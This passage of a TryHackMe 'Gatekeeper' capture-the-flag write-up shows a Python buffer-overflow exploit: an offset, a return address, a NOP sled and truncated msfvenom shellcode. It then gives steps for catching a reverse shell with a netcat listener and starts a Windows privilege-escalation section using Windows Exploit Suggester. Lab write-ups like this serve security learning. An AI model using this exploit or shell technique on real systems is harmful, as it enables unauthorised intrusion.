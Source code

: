 ```python
import socket
ip = "10.10.17.49" ///treplace with your ip from THM
port = 31337
prefix = ""
offset = 146
overflow = "A" * offset
return_add = "\xc3\x14\x04\x08"
padding = "\x90"*32
payload =  b""
payload += b"\xbe\x37\x70\xb2\x1e\xd9\xc9\xd9\x74\x24\xf4\x5f"
payload += b"\x33\xc9\xb1\x52\x83\xef\xfc\x31\x77\x0e\x03\x40"
....
<truncated>
```

### Profit

start a `netcat` listener on the port you defined in the msfvenom shellcode generator, launch the exploit against the target system, to get shell access and collect the user flag.

![](/assets/img/images/gatekeeper/user.png)

## Privilege Escalation

To grab the root user flag, we have to do privilege escalation. Running `systeminfo`, we see this is a Windows 7 machine, which as you can probably guess, has a plethora of possible vulnerabilities.

We can grab the systeminfo output and run it against [Windows Exploit Suggestor](https://medium.com/r/?url=https%3A%2F%2Fgithub.com%2Fbitsadmin%2Fwesng) to discver any kernel exploits.

```python
python wes.py -d <database_file> -i <system_info_file>
```
